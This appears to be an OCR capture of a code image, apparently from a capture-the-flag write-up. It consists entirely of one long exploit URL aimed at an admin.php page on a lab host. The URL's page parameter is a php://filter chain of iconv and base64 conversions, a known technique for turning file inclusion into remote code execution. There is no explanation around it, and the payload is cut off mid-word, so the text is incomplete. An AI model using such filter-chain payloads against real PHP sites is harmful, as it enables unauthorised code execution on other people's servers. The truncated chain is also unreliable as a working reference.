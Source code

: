 ```bash
http://hillvalley.thl/admin.php?page=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16|convert.iconv.WINDOWS-1258.UTF32LE|convert.iconv.ISIRI3342.ISO-IR-157|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.iconv.ISO-IR-103.850|convert.iconv.PT154.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.DEC.UTF-16|convert.iconv.ISO8859-9.ISO_6937-2|convert.iconv.UTF16.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500-1983.UCS-2BE|convert.iconv.MIK.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.864.UTF32|convert.iconv.IBM912.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|conver
```